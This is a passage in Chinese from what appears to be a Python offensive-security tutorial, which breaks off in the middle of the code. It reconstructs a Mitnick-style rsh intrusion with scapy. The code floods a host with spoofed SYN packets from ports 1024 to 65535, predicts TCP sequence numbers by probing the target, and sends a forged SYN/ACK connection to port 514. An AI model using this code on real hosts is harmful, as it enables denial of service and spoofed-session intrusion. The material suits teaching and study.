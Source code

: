 在 Python 中重现这些，我们将生成和发送两个数据包。首先我们创建一个 TCP 源端口是 513 和目的端口是 514 的源 IP 地址是欺骗的服务器目的 IP 地址是目标 IP 地址的 SYN 数据包，接下来，我们创建一个相同的 ACK 数据包，增加计算的序列号作为额外的字段，并发送它。

```py
from scapy.all import *
def spoofConn(src, tgt, ack):
    IPlayer = IP(src=src, dst=tgt)
    TCPlayer = TCP(sport=513, dport=514)
    synPkt = IPlayer / TCPlayer
    send(synPkt)
    IPlayer = IP(src=src, dst=tgt)
    TCPlayer = TCP(sport=513, dport=514, ack=ack)
    ackPkt = IPlayer / TCPlayer
    send(ackPkt)

src = "10.1.1.2"
tgt = "192.168.1.106"
seqNum = 2024371201
spoofConn(src,tgt,seqNum) 
```

将全部代码整合在一起，我们将增加一些命令行选项解析来指定要欺骗连接的地址，目标服务器，和欺骗地址的初始化 SYN 洪水攻击。

```py
# coding=UTF-8
import optparse
from scapy.all import *

#SYN 洪水攻击
def synFlood(src, tgt):
    for sport in range(1024, 65535):
        IPlayer = IP(src=src, dst=tgt)
        TCPlayer = TCP(sport=sport, dport=513)
        pkt = IPlayer / TCPlayer
        send(pkt)
#预测 TCP 序列号
def calTSN(tgt):
    seqNum = 0
    preNum = 0
    diffSeq = 0
    for x in range(1, 5):
        if preNum != 0:
            preNum = seqNum
        pkt = IP(dst=tgt) / TCP()
        ans = sr1(pkt, verbose=0)
        seqNum = ans.getlayer(TCP).seq
        diffSeq = seqNum - preNum
        print '[+] TCP Seq Difference: ' + str(diffSeq)
    return seqNum + diffSeq
#发送 ACk 欺骗包
def spoofConn(src, tgt, ack):
    IPlayer = IP(src=src, dst=tgt)
    TCPlayer = TCP(sport=513, dport=514)
    synPkt = IPlayer / TCPlayer
    send(synPkt)
    IPlayer = IP(src=src, dst=tgt)
    TCPlayer = TCP(sport=513, dport=514, ack=ack)
    ackPkt = IPlayer / TCPlayer
    send(ackPkt)
def main():
    parser = optparse.OptionParser('usage%prog -s<src for SYN Flood> -S <src for spoofed connection> -t<target address>')
    parser.add_option('-s', dest='synSpoof', type='string', help='specifc src for SYN Flood')
    parser.add_option('-S', dest='srcSpoof', type='string', help='specify src for spoofed connection')
```